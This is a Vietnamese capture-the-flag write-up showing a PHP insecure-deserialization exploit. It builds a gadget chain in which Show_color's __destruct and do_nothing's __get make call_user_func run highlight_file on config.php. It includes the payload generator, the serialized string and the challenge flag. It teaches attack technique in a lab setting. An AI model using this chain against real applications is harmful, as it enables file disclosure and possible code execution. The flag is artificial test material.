 Vậy để tạo toàn bộ payload, ta cần kết hợp cả hai class ```Show_color``` và ```do_nothing``` lại với nhau, mặt khác, để magic method __get hoạt động và trả về giá trị ```$adu```
ta cần biến ```$why``` được gán giá trị, vậy thì đơn giản thôi, ta gán cho nó bất kỳ giá trị nào thì câu lệnh ```isset($this->why)``` cũng luôn trả về ```true```.
```PHP
<?php

class Show_color
{
    public $color;
    public $type;
    public function __construct($type, $color)
    {
        $this->type = $type;
        $this->color = $color;
    }
    public function __destruct()
    {
        call_user_func($this->type->adu, $this->color);
    }
}

class do_nothing
{
    public $why;
    public $adu;
    public function __construct($a, $b)
    {
        $this->why = $a;
        $this->adu = $b;
    }
    public function __get($method)
    {
        if (isset($this->why)) {
            return $this->adu;
        }
        return $method;
    }
}

$adu = new do_nothing("1", "highlight_file");
$a = new Show_color($adu, "config.php");
$b = serialize($a);
file_put_contents("payload", $b);
```

Sau khi chạy file trên, ta sẽ nhận được nội dung của file payload như sau:
```Text
O:10:"Show_color":2:{s:5:"color";s:10:"config.php";s:4:"type";O:10:"do_nothing":2:{s:3:"why";s:1:"1";s:3:"adu";s:14:"highlight_file";}}
```
Vậy luồng thực thi của nó sẽ như sau:
```do_nothing khởi tạo``` -> ```biến why nhận giá trị "1"; biến adu nhận giá trị "highlight_file"``` -> ```$this->type của class Show_color sẽ là object của class do_nothing```
-> ```$this->color sẽ nhận giá trị "config.php"``` -> hàm ```call_user_func nhận các giá trị là "highlight_file" và "config.php"``` -> ```hàm call_user_func được chạy```
-> Trả về nội dung của file ```config.php``` và in ra màn hình.

Nội dung file ```config.php```:
![image](https://github.com/ledunguit/ctf/blob/main/images/Screenshot%202021-10-16%20144200.png?raw=true)

### Flag: flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}
